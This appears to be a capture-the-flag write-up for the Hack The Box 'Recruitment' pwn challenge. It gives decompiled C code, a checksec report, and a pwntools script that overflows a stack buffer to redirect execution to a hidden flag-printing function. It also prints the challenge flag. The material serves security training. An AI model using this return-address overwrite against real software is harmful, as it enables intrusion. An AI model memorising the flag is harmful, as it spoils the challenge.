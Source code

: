 # Recruitment 

## Description: 

* We are looking for some skilled agents to train in order to make the greatest spy army in the world. We need your info in order to join us and give you an agent id. 

## Objective: 

* Take advantage of *Bof* to overwrite the return address and call `agent_id()`.

## Flag: :black_flag:
* HTB{th1s_1s_ju5t_th3_st4rt_4g3nt}

### Difficulty:
* Very Easy

## Challenge:

The interface looks like this:

```console
$ ./recruitment 
Agent, this is the first and last time we will hear your real name!
From now on, you are Agent [40].
Please, introduce yourself.
> w3t
Excellent Agent [40]!
You are free for now, you will be informed for your next mission soon.
$ ./recruitment 
Agent, this is the first and last time we will hear your real name!
From now on, you are Agent [7].
Please, introduce yourself.
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Excellent Agent [1094795585]!
You are free for now, you will be informed for your next mission soon.
Segmentation fault (core dumped)
```

As we can see, there is a `SegFault` after some "A"s. That means there is a possible *BufferOverflow*.

We run a `checksec` to verify this:
```console
$ checksec ./recruitment
[*] '/home/w3th4nds/github/HTB-Challenges/pwn/CTF_101/challenge/recruitment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
**Canary** is disabled, so *Bof* will be even easier now.

Let's open a disassembler to analyze the program.

### Disassembly :pick:

We start from `main()`:

```c
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  undefined local_38 [44];
  uint local_c;
  
  setup();
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  iVar1 = rand();
  local_c = iVar1 % 100 + 1;
  printf(
         "Agent, this is the first and last time we will hear your real name!\nFrom now on, you areAgent [%d].\nPlease, introduce yourself.\n> "
         ,(ulong)local_c);
  read(0,local_38,0x40);
  printf(
         "Excellent Agent [%d]!\nYou are free for now, you will be informed for your next missionsoon.\n"
         ,(ulong)local_c);
  return 0;
}
```

We see that there is another interesting function that is never called:

```c
void agent_id(void)

{
  char local_38 [40];
  FILE *local_10;
  
  local_10 = fopen("./flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Error loading flag! Please contact the admin.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_38,0x22,local_10);
  fclose(local_10);
  puts(local_38);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function reads the flag and prints it for us.

What we need to do:

* Overflow the buffer and overwrite the return address with the address of `agent_id`.

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'docker.hackthebox.eu' # change this
port = 30029 # change this
fname = './recruitment' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

e = ELF(fname)

ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)
sa = lambda x,y : r.sendafter(x,y)

def get_flag():
	ru('{')[:-1]
	flag = ru('}')
	print('Flag: HTB{' + flag.decode())

def pwn():
	junk = b'A'*56
	payload = junk + p64(e.symbols['agent_id'])
	sa('>', payload)
	get_flag()

if __name__ == '__main__':
	pwn()

```

### PoC: :checkered_flag:

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] 'challenge/recruitment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Flag: HTB{th1s_1s_ju5t_th3_st4rt_4g3nt}
```
